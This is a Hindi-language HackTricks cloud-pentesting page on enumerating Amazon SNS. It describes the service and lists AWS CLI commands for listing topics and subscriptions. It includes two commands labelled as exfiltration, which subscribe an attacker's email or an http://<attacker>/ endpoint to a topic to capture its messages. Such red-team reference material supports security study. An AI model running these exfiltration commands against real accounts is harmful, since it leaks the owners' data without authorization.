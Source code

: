 # AWS - SNS Enum

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## SNS

अमेज़न सिम्पल नोटिफिकेशन सर्विस (Amazon SNS) को एक **पूरी तरह से प्रबंधित संदेश सेवा** के रूप में वर्णित किया गया है। यह **एप्लिकेशन-टू-एप्लिकेशन** (A2A) और **एप्लिकेशन-टू-व्यक्ति** (A2P) संचार प्रकार दोनों का समर्थन करता है।

A2A संचार के लिए मुख्य विशेषताएं में **प्रकाशित/सब्सक्राइब (पब/सब) तंत्र** शामिल हैं। ये तंत्र **विषयों** को पेश करते हैं, जो उच्च-संचार, **पुश-आधारित, बहुत-से-बहुत संदेश** को संभावित करने के लिए महत्वपूर्ण हैं। यह सुविधा वितरित सिस्टम, माइक्रोसर्विसेज, और घटना-निर्देशित सर्वरलेस वास्तुकला शामिल स्थितियों में अत्यधिक लाभकारी है। इन विषयों का उपयोग करके प्रकाशक सिस्टम संदेशों को एक **विस्तृत श्रोता सिस्टम** में प्रभावी ढंग से वितरित कर सकते हैं, जो एक फैनआउट संदेश पैटर्न को सुविधाजनक बनाता है।


### **SQS के साथ अंतर**

**SQS** एक **कतार-आधारित** सेवा है जो बिंदु-से-बिंदु संचार की अनुमति देती है, यह सुनिश्चित करती है कि संदेश को **एकल उपभोक्ता** द्वारा प्रसंस्कृत किया जाता है। यह **कम से कम एक बार वितरण** प्रदान करती है, मानक और FIFO कतारों का समर्थन करती है, और पुन: प्रयास और विलंबित प्रसंस्करण के लिए संदेश रिटेंशन की अनुमति देती है।\
दूसरी ओर, **SNS** एक **प्रकाशित/सब्सक्राइब-आधारित सेवा** है, जो **एक-से-बहुत** संचार को संभावित करती है जिसमें संदेशों को **एक साथ कई सब्सक्राइबर्स** को समय-समय पर प्रसारित किया जाता है। यह **ईमेल, एसएमएस, लैम्बडा फंक्शन्स, और HTTP/HTTPS** जैसे विभिन्न सब्सक्रिप्शन इंडपॉइंट का समर्थन करती है, और लक्षित संदेश प्रसारण के लिए फ़िल्टरिंग तंत्र प्रदान करती है।\
जबकि दोनों सेवाएं वितरित सिस्टम में घटकों के बीच अलग करने की संभावना प्रदान करती हैं, SQS कतार-संचार पर ध्यान केंद्रित करती है, और SNS घटना-निर्देशित, फैन-आउट संचार पैटर्न पर जोर देती है।

### **गणना**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल **SQS** प्रोटोकॉल का उपयोग करने वाले सब्सक्राइबर का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता है)।

इसके अलावा, यदि `--topic-arn` क्षेत्र शामिल है तो सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करें या आपको पहुंचने की अनुमति नहीं है लेकिन समस्या क्षेत्र में है जैसा कि दिखाई देता है।
{% endhint %}

### अप्रमाणित पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### विशेषाधिकार उन्नयन

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# संदर्भ
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **PDF में HackTricks डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PR जमा करके।

</details>
